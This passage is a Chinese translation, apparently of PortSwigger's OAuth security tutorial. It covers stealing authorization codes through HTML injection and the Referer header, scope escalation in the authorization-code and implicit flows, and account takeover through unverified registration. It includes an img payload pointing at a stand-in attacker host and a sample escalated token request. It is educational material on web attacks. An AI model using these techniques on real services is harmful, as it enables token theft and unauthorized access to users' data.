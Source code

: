* **HTML注入漏洞**

  在不能注入JavaScript的情况下（例如，由于CSP的限制或严格的过滤），你可能仍然能够使用一个简单的HTML注入来窃取授权码。如果你能将`redirect_uri`参数指向一个可以注入你自己的HTML内容的页面，你可能就能通过`Referer`头泄露代码。例如，考虑下面这个img元素：`<img src="evil-user.net">`。当试图获取这张图片时，一些浏览器（如Firefox）会在请求的`Referer`头中发送完整的URL，包括查询字符串。

> 实验：[通过代理页面窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

#### 有缺陷的范围验证

在任何OAuth流程中，用户必须根据授权请求中定义的范围批准请求的访问。由此产生的令牌只允许客户端应用程序访问由用户批准的范围。但在某些情况下，由于OAuth服务的验证有缺陷，攻击者有可能“升级”访问令牌（无论是偷来的还是用恶意的客户端应用程序获得的），使其具有额外的权限。这样做的过程取决于授予的类型。

范围升级：授权码流程

使用授权码授予类型，用户的数据是通过安全的服务器到服务器的通信来请求和发送的，第三方攻击者通常无法直接操纵。然而，仍有可能通过在OAuth服务中注册他们自己的客户端应用程序来实现同样的结果。

例如，假设攻击者的恶意客户端应用程序最初使用`openid email`范围请求访问用户的电子邮件地址。在用户批准这个请求后，恶意的客户端应用程序会收到一个授权码。由于攻击者控制了他们的客户端应用程序，他们可以在code/token交换请求中添加另一个`scope`参数，包含额外的`profile`范围：

```http
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```

如果服务器没有根据初始授权请求的范围进行验证，它有时会使用新的范围生成一个访问令牌，并将其发送给攻击者的客户端应用程序：

```http
{
  "access_token": "z0y9x8w7v6u5",
  "token_type": "Bearer",
  "expires_in": 3600,
  "scope": "openid email profile",
  …
}
```

然后，攻击者可以使用他们的应用程序进行必要的API调用，访问用户的个人资料数据。

范围升级:隐式流程

对于隐式授予类型，访问令牌是通过浏览器发送的，这意味着攻击者可以窃取与无辜的客户端应用程序相关的令牌并直接使用它们。一旦他们窃取了访问令牌，他们可以向OAuth服务的`/userinfo`端点发送一个正常的基于浏览器的请求，在这个过程中手动添加一个新的`scope`参数。

理想情况下，OAuth服务应该用生成令牌时使用的`scope`值来验证这个范围，但这并不总是如此。只要调整后的权限不超过先前授予该客户端应用程序的访问级别，攻击者就有可能访问更多的数据，而不需要用户的进一步批准。

### 未经验证的用户注册

当通过OAuth认证用户时，客户端应用程序会隐含地假设OAuth提供者所存储的信息是正确的。这可能是一个危险的假设。

一些提供OAuth服务的网站允许用户在没有验证他们所有细节的情况下注册一个账户，在某些情况下包括他们的电子邮件地址。攻击者可以利用这一点，使用与目标用户相同的细节，如已知的电子邮件地址，向OAuth提供商注册一个账户。客户端应用程序可能会允许攻击者通过这个欺诈性的OAuth提供商的账户作为受害者登录。

## 使用OpenID Connect扩展OAuth
